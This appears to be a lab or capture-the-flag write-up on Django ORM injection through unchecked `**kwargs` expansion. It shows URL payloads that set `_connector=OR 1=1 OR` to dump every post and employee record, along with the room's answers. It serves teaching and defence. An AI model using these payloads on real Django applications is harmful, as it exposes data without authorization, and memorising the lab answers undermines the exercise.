


## Introduction

Django's Object-Relational Mapping (ORM) allows developers to write database queries using Python syntax instead of raw SQL. Queries like `filter()`, `exclude()`, and `get()` use keyword arguments (**kwargs**) to specify conditions.

For example:

```bash
User.objects.filter(username='admin')
```

The issue arises when developers pass **untrusted user input directly into Django ORM queries through Python dictionary expansion**:

```bash
User.objects.filter(**request.GET.dict())
```

This allows attackers to supply:

- normal field filters  
- Django internal parameters like `_connector` and `_negated`  
- advanced lookup expressions like `__contains`, `__startswith`, `__year`  

When misused, these parameters can **bypass filters**, **invert queries**, or **expose hidden data**.

---

## Task 1: Post Retrieval

Attackers can manipulate `_connector` to retrieve all posts from the database. Example:

```bash
http://10.201.28.171:8000/poc/?author=Security%20Architect&_connector=OR%201=1%20OR
```

This forces the query to return all posts.

{: width="972" height="589" }

**Question 1: What is the title of the post by “DevOps Engineer”?**  
**Ans:** Monitoring Django Apps - Advanced

---

## Task 2: Employee Lookup

Navigate to:

```bash
http://10.201.28.171:8000/poc/employees
```

Filter by date:

```bash
?hire_date=2022-06-05
```

Bypass restrictions:

```bash
http://10.201.28.171:8000/poc/employees/?_connector=OR%201=1%20OR
```

Or targeted:

```bash
http://10.201.28.171:8000/poc/employees/?hire_date=2022-06-05&_connector=OR%201=1%20OR
```

{: width="972" height="589" }

**Question 2: What is the name of the employee whose hire date is “June 5, 2022”?**  
**Ans:** David Rodriguez

---

## Vulnerable Parameters

- **_connector:** Controls condition joining (AND/OR). Injection can override logic.  
- **_negated:** Inverts queries.  
- **Lookups:** `__year`, `__contains`, `__startswith` can leak data or bypass logic.

---

## Summary

- Directly expanding user input into Django ORM queries is dangerous.  
- `_connector`, `_negated`, and lookups allow logic manipulation.  
- OR-based injection (`OR 1=1`) can reveal entire tables.  
- Errors like `FieldError` help enumerate schema.  
- New Django versions block dangerous kwargs—always update.